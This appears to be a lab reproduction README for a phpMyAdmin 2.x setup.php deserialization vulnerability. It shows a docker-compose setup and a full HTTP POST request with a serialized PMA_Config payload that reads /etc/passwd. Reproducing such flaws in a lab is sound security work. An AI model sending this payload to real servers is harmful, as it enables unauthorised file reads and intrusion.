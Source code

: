 # phpmyadmin scripts/setup.php Deserialization Vulnerability (WooYun-2016-199433)

There is a deserialization vulnerability in phpmyadmin 2.x that allows an attacker to read arbitrary files or execute arbitrary code.

## Environment Building

Run the following command to start phpmyadmin:

```
Docker-compose up -d
```

After the environment starts, visit `http://your-ip:8080` and you will see the phpmyadmin home page. Because there is no connection to the database, we will report an error at this time, but the use of this vulnerability is not related to the database, so it is ignored.

## Vulnerability recurrence

Send the following packet to read `/etc/passwd`:

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

Action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)